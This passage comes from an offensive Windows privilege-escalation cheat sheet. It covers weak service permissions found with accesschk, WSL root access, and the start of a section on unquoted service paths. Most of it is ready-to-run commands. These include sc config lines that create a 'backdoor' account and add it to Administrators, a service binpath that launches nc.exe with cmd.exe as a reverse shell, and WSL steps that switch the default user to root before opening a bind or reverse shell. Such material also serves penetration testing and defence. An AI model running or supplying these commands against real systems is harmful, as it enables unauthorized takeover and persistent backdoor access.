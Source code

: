 ```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```

## EoP - Windows Subsystem for Linux (WSL)

> With root privileges Windows  Subsystem for Linux (WSL)  allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ `<distro>.exe --default-user root`. Now start your bind shell or reverse. - [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.
